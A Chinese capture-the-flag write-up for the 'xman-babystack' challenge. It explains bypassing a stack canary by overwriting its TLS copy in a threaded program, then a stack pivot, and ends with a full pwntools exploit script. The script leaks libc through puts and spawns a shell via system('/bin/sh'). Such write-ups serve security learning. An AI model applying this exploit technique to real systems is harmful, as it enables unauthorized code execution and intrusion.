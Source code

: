 # 标题

> xman-babystack

## **原理**
stack pivot

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

![](1.png)

由上图可见，存在一个溢出的问题。

![](2.png)

查看保护机制的开启情况，发现 canary开着。

想要溢出，就要绕过canary。 

有一个知识点就是：由于多线程中Canary存入TLS结构体，而TLS位于多线程内部栈的高地址，并且该结构体与当前栈差距不足一个page，导致我们能对其进行修改，改为我们想要的值，从而绕过检测。

思路就是：利用溢出，修改canary。然后进行stack pivot。

那我们如何找到 存入tls结构体的canary的偏移呢？

![](3.png)

可以运行一下elf文件，然后查看一下canary。算一下偏移，大概就能知道payload要写多长了。


完整exp：

```
from pwn import *
context(os='linux', arch='i386', log_level='debug')
p = process("./bs")

elf = ELF("./bs")
libc = ELF("./bs_libc.so.6")

main = 0x4009e7
buf=0x602300
pop_rdi_ret = 0x0000000000400c03
pop_rsi_r15_ret =0x0000000000400c01
leave_ret=0x400955
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]
puts_libc = libc.symbols["puts"]
sys_libc = libc.symbols["system"]
bin_libc = libc.search("/bin/sh").next()
read = elf.plt["read"]

p1=p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)
p2=p64(pop_rdi_ret)+p64(0)+p64(pop_rsi_r15_ret)+p64(buf+0x8)+p64(0)+p64(read)+p64(leave_ret)
payload=p1+p2

p.recvuntil("How many bytes do you want to send?")
p.sendline(str(0x17f0))
p.send("a"*0x1010+p64(buf)+payload+ "a"*(0x17f0-0x1010-len(payload)))

p.recvuntil("It's time to say goodbye.\n")

puts=u64(p.recvline()[:6]+"\x00\x00")#-0x6f690
print "puts address---->"+hex(puts)
libbase = puts - puts_libc
print "libbase address---->"+hex(libbase)

system=libbase+sys_libc
binsh=libbase+bin_libc

p.sendline(p64(pop_rdi_ret)+p64(binsh)+p64(system))
p.interactive()

```

## **参考阅读**

